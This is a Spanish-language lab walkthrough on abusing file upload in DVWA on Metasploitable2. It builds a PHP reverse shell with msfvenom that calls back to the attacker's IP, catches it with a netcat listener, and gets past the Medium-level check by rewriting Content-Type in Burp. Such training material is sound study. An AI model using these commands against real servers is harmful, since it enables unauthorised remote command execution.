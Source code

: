 # File Upload Abuse Parte 1
Cambiar la seguridad del sitio a **Low**.  

Crear un reverse shell con `msfvenom`:  
`msfvenom -p php/reverse_php LHOST=<IP DEL ATACANTE> LPORT=<ALGUN PUERTO PARA ESCUCHAR> -f raw > msfvenom-shell.php`  

Confirmar que se creó el shell corriendo el comando `ls`.  

Subir el shell al servidor Metasploitable2.  

Abrir otra ventana de terminal para ejecutar una instancia de Netcat. Netcat es una utilidad que va a escuchar por cualquier petición al puerto que definimos anteriormente.  
`nc -lvp <EL PUERTO QUE PUSIMOS ARRIBA>`

Ahora navegar a la página donde se subió el shell. Ejemplo: http://192.168.100.93/dvwa/hackable/uploads/msfvenom-shell.php  
El navegador no debería desplegar nada, pero en la terminal donde tenemos Netcat, vamos a obtener información de que se lograron conectar.  

Ahora se pueden ejecutar comandos remotamente, por ejemplo `ls`.  

---

# File Upload Abuse Parte 2
Cambiar la seguridad del sitio a **Medium** y reintentar el ataque anterior.  
El servidor no va a dejar subir el archivo por el tipo de archivo que es. 

Para burlar esto, interceptar el request con Burp y seguidamente alterar el paquete de la siguiente forma:  

En la línea donde dice:  

`Content-Type: application/x-php`  

Cambiar el header a:  

`Content-Type: image/jpeg`  

De esta forma el sevidor piensa que está recibiendo un archivo de imagen.  

Ahora podemos ejecutar de nuevo Netcat y repetir el resto de los pasos anteriores.
